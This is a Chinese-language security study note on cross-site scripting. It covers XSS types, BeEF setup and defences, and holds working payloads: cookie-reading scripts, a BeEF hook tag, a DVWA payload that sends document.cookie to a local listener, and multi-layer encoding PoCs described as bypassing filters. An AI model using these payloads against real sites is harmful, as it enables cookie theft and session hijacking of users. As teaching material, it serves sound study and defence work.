# XSS

## intro

[Cross-site Scripting ](../security/webpentesting.md#cross-site-scripting)

[XSS advance](../webapp/ClientSideAttacks.md#xss)

[Cross-Site Scripting](../common.md#xss) 简称为“CSS”，为避免与前端叠成样式表的缩写"CSS"冲突，故又称XSS。一般XSS可以分为如下几种常见类型：
1. 反射性XSS
2. 存储型XSS
3. DOM型XSS

- 注入恶意 JS 代码

XSS是一种发生在前端浏览器端的漏洞，所以其危害的对象也是前端用户。形成XSS漏洞的主要原因是程序对输入和输出没有做合适的处理，导致“精心构造”的字符输出在前端时被浏览器当作有效代码解析执行从而产生危害。因此在XSS漏洞的防范上，一般会采用“对输入进行过滤”和“输出进行转义”的方式进行处理:

- **输入过滤**：对输入进行过滤，不允许可能导致XSS攻击的字符输入;
- **输出转义**：根据输出点的位置对输出到前端的内容进行适当转义;

## 反射型 XSS

应用程序或 API 包括**未经验证和未经转义的用户输入， 直接作为 HTML 输出的一部分**。一个成功的攻击可以让攻击者在受害者的浏览器中执行任意的 HTML 和 JavaScript 。

- **特点**：非持久化，必须用户点击带有特定参数的链接才能引起。
- **影响范围**：仅执行脚本的用户。

**payload**

```javascript
<script>alert(233);</script>
```

```javascript
<script>alert("点击跳转至百度");location.href="https://www.baidu.com"</script>
```

```javascript
<script>alert(document.cookie)</script>
```
---

## 存储型XSS

存储型 XSS 是指应用程序通过 Web 请求**获取不可信赖的数据**，在未检验数据是否存在 XSS 代码的情况下，便将其**存入数据库**。当下一次从数据库中获取该数据时程序也**未对其进行过滤**，页面再次执行 XSS 代码，存储型 XSS 可以持续攻击用户。

<span style="font-size: 19px;">**存储型 XSS 出现位置**</span>

- 留言板
- 评论区
- 用户头像
- 个性签名
- 博客

### BeEF

The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。 用 Ruby 语言开发的，Kali 中默认安装的一个模块，用于实现对 XSS 漏洞的攻击和利用。自带一个 **JS 脚本**和**后台管理页面**。



```bash
sudo apt update
sudo apt install -y beef-xss

# 启动beef
beef-xss-start

# 查看运行状态
sudo systemctl status beef-xss
```
`http://127.0.0.1:3000/ui/panel`

```javascript
<script src="http://127.0.0.1:3000/hook.js"></script>
```

**配置文件地址**

`/usr/share/beef-xss/config.yaml`

### 防御方式

- 对用户的输入进行合理验证，对特殊字符（如`<、>、'、"`等）以及 `<script>、 javascript` 等进行过滤。



- 采用 OWASP ESAPI 对数据输出 HTML 上下文中不同位置（HTML 标签、HTML属性、JavaScript 脚本、CSS、URL）进行恰当的**输出编码**。



**HTML实体**



- 设置 HttpOnly 属性，避免攻击者利用跨站脚本漏洞进行 Cookie 劫持攻击。在 Java EE
中，给 Cookie 添加 HttpOnly 的代码如下：

```txt
java:
cookie.setHttpOnly(true);
python:
tools.sessions.httponly = True
php:
session.cookie_httponly =1
```
---

## DOM型XSS

[DOM Based XSS](../security/webpentesting.md#dom-based-xss)

**DOM(Document Object Model)** 模型用一个**逻辑树**来表示**一个文档**，每个分支的终点都是一个节点 （node），每个节点都包含着对象（objects）。DOM 的方法（methods）让你可以用特定方式操作这个树，用这些方法你可以改变文档的结构、样式或者内容。

DOM型XSS 漏洞 其实是一种特殊类型的反射型 XSS，通过 **JS 操作 DOM 树**动态地**输出数据到页面**，而不依赖于将数据提交给服务器端，它是基于 DOM 文档对象模型的一种漏洞。

**payload**

*dvwa-XSS(DOM)*
```bash
127.0.0.1/vulnerabilities/xss_d/?default=<script>var pic=document.createElement("img"); pic.src="http://127.0.0.1:333/getCookie?"+escape(document.cookie)</script>
```

## mXSS

- Mutated 突变
- 攻击者输入看似安全的内容，在解析标记时经过浏览器重写或者修改，发生突变，生成不安全的代码并执行，即 mXSS，极难被检测和过滤。



## 伪协议与编码绕过

伪协议不同于因特网上所广泛使用的如 `http://,https://,ftp://`，在 **URL** 中使用，用于执行特定的功能：

- Data 伪协议：
  - `data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=`
- JavaScript 伪协议 ：
  - `javascript:alert("1")`

<span style="font-size: 19px;">**Unicode 编码**</span>

ISO （国际标谁化组织）制定的包括了地球上**所有文化、所有字母和符号**的编码，使用两个字节表示一个字符，Unicode 只是一个符号集，它只规定了符号的二进制代码，却**没有规定**这个二进制代码应该如何**存储**。

具体存储由：UTF-8，UTF-16等实现。



<span style="font-size: 19px;">**浏览器解码**</span>

解析一篇 HTML 文档时主要有三个处理过程：**HTML解析，URL解析 和 JavaScript解析**。每个解析器负责解码和解析 HTML 文档中它所对
应的部分，且顺序也有所区别。

**HTML解码**

```html
<h1>编码解析</h1>
<h3>HTML解码</h3>
<p>对于a标签，href属性 javascript:alert(1) 编码比较</p>
<p>1 	<a href="javascript:alert(1)"> 未编码</a></p>
<p>2	<a h&#x72;ef="javascript:alert(1)">href中的r进行编码</a></p>
<p>3	<a href="javasc&#x72;ipt:alert(1)">javascript中的r进行编码</a></p>
<p>4	<a href="javascript:ale&#x72;t(1)">alert(1)中的r进行编码</a></p>
<hr>
```


**URL解码**

```html
<h3>URL解码</h3>
<p>对于a标签，href属性 javascript:alert(1) 编码比较</p>
<p>1	<a href="javascript:alert(1)"> 未编码</a></p>
<p>2	<a h%72ef="javascript:alert(1)">href中的r进行编码</a></p>
<p>3	<a href="javasc%72ipt:alert(1)">javascript中的r进行编码</a></p>
<p>4	<a href="javascript:ale%72t(1)">alert(1)中的r进行编码</a></p>
<hr>
```


**JavaScript解码**

```html
<h3>JavaScript解码</h3>
<p>对于a标签，href属性 javascript:alert(1) 编码比较</p>
<p>1	<a href="javascript:alert(1)"> 未编码</a></p>
<p>2	<a h\u0072ef="javascript:alert(1)">href中的r进行编码</a></p>
<p>3	<a href="javasc\u0072ipt:alert(1)">javascript中的r进行编码</a></p>
<p>4	<a href="javascript:ale\u0072t(1)">alert(1)中的r进行编码</a></p>
<p>5	<a href="javascript:alert\u00281)">alert(1)中的(进行编码</a></p>
<hr>
```


**二层混淆解码**

```html
<h3>二层混淆解码</h3>
<p>对于a标签，href属性 javascript:alert(1) 二层编码比较</p>
<p>1	<a href="javascript:ale%5c%75%30%30%37%32t(1)">alert(1)中的r进行js编码,后url编码</a></p>
<p>2	<a href="javascript:ale&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;t(1)">alert(1)中的r进行js编码,后html编码</a></p>
<p>3	<a href="javascript:ale&#x25;&#x37;&#x32;t(1)">alert(1)中的r进行url编码,后html编码</a></p>
<hr>
```


**三层混淆解码**

```html
<h3>三层混淆解码</h3>
<p>对于a标签，href属性 javascript:alert(1) 三层编码漏洞触发</p>
<p>三层解码 	<a href="javascript:ale&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;t(1)">alert(1)中的r进行js编码,后url编码,再html编码</a></p>
<hr>
```


---

## 编码混淆

- 一定要遵循浏览器的规则才可以确保代码能够被浏览器理解！！！

### 混合编码

- 对 XSS 代码的不同部分使用不同的编码方式，以此绕过防护软件的过滤。

**PoC**

```html
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:\u0061\u006c\u0065\u0072\u0074 (/xss/)">test</a>
```


### 二层混淆

二层混淆就是对 XSS 代码在遵循浏览器解码规则的情况下进行两次编码，让防护软件无法理解 XSS 代码，进而绕过防护软件。

**PoC**

```html
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(/xss/)">test</a>
```


### 三层混淆

三层混淆就是在二层混淆的基础上再增加一次编码，让防护软件无法理解 XSS 代码，进而绕过防护软件。

```html
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;(/xss/)">test</a>
```


### JSFuck

[JSFuck](https://github.com/aemkei/jsfuck) 使用6 个字符 []()!+ 来编写 JavaScript 程序



---

## 扩展

### XSS蠕虫

一种**跨站脚本病毒**，大多使用 **JavaScript 脚本**编写，突破浏览器的安全限制，XSS 蠕虫基于**社会工程学**诱使用户点击访问其发出的恶意邀请链接在网站上感染访问网站的用户，受感染的用户发送含有蠕虫的内容，再感染安全的用户。

<span style="font-size: 19px;">**XSS 蠕虫一般原理**</span>

1. 基于**存储型** XSS 漏洞，攻击者在 Web 页面植入恶意代码。
2. 发送伪装的邀请链接。
3. 用户点击链接被感染。
4. 新感染用户的向好友发送伪装的邀请链接。

[AJAX](../cyber/WebApplication.md#ajax)

